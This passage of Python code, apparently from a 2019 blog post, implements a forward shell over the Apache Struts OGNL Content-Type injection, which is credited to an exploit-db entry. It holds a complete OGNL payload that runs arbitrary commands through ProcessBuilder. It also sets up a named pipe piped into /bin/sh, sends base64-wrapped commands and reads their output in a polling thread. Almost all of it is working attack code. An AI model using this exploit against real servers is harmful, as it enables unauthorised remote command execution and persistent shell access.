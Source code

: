 ```python

		# Setting up shell
		print('[*] Setting up forward shell on target')
		createNamedPipes = f'mkfifo {self.stdin}; tail -f {self.stdin} | /bin/sh > {self.stdout} 2>&1'
		self.runRawCmd(createNamedPipes, timeout=0.5)

		# Setting up read thread
		print('[*] Setting up read thread')
		self.interval = interval
		thread = threading.Thread(target=self.readThread, args=())
		thread.daemon = True
		thread.start()

	def readThread(self):
		getOutput = f'/bin/cat {self.stdout}'
		while True:
			result = self.runRawCmd(getOutput).decode('utf-8')
			if result:
				print(result)
				clearOutput = f'echo -n "" > {self.stdout}'
				self.runRawCmd(clearOutput)
			time.sleep(self.interval)

	# Source: https://www.exploit-db.com/exploits/41570
	def runRawCmd(self, cmd, timeout=50):
		payload = "%{(#_='multipart/form-data')."
		payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
		payload += "(#_memberAccess?"
		payload += "(#_memberAccess=#dm):"
		payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
		payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
		payload += "(#ognlUtil.getExcludedPackageNames().clear())."
		payload += "(#ognlUtil.getExcludedClasses().clear())."
		payload += "(#context.setMemberAccess(#dm))))."
		payload += "(#cmd='%s')." % cmd
		payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
		payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
		payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
		payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
		payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
		payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
		payload += "(#ros.flush())}"

		headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
		request = urllib2.Request(self.url, headers=headers)

		try:
			return urllib2.urlopen(request, timeout=timeout).read()
		except httplib.IncompleteRead as e:
			return e.partial
		except:  # _socket.timeout:
			pass

	def writeCmd(self, cmd):
		b64Cmd = base64.b64encode(f'{cmd.rstrip()}\n'.encode('utf-8')).decode('utf-8')
		unwrapAndExec = f'base64 -d <<< {b64Cmd} > {self.stdin}'
		self.runRawCmd(unwrapAndExec)
		time.sleep(self.interval * 1.1)

```

[//]: # (2019-09-17)
[//]: # ({{ "/img/xakep-badge.png" | relative_url }})